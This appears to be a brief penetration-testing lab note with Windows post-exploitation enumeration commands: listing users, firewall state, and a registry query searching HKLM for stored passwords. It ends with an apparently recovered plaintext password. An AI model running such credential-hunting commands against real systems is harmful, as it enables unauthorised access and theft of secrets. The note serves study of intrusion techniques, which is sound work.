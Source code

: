 
![[Pasted image 20240502020942.png]]


```
net user
```
![[Pasted image 20240502021215.png]]

```
netsh firewall show state
```
![[Pasted image 20240502021554.png]]


```
reg query HKLM /f password /t REG_SZ /s
```
![[Pasted image 20240502021900.png]]

```
Moneymakestheworldgoround!
```
